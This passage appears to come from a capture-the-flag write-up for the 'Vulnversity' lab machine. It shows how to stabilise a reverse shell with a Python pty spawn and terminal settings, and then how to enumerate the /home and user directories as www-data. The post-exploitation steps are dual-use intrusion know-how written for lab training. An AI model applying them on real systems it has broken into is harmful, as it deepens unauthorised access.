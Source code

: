 On the target machine, we run the following command:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

<br />

Then put it in the background, which will briefly return us to our local shell:

```
Ctrl + Z
```

<br />

Then use the following command locally:

```
stty raw -echo && fg
```

<br />

This should bring us back to the reverse shell where we enter the final command:

```
export TERM=xterm-256-color
```

<br />

Now that we have a stabilized shell, our next step should be to check the `/home` directory for any hints or pointers.

```
www-data@vulnuniversity:/$ cd /home
www-data@vulnuniversity:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Jul 31  2019 .
drwxr-xr-x 23 root root 4096 Jul 31  2019 ..
drwxr-xr-x  2 bill bill 4096 Jul 31  2019 bill
www-data@vulnuniversity:/home$ 
```

<br />

There is only one user folder we can list, which we also have access to.

```
www-data@vulnuniversity:/home$ cd bill
www-data@vulnuniversity:/home/bill$ ls -la
total 24
drwxr-xr-x 2 bill bill 4096 Jul 31  2019 .
drwxr-xr-x 3 root root 4096 Jul 31  2019 ..
-rw-r--r-- 1 bill bill  220 Jul 31  2019 .bash_logout
-rw-r--r-- 1 bill bill 3771 Jul 31  2019 .bashrc
-rw-r--r-- 1 bill bill  655 Jul 31  2019 .profile
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
www-data@vulnuniversity:/home/bill$ 
```
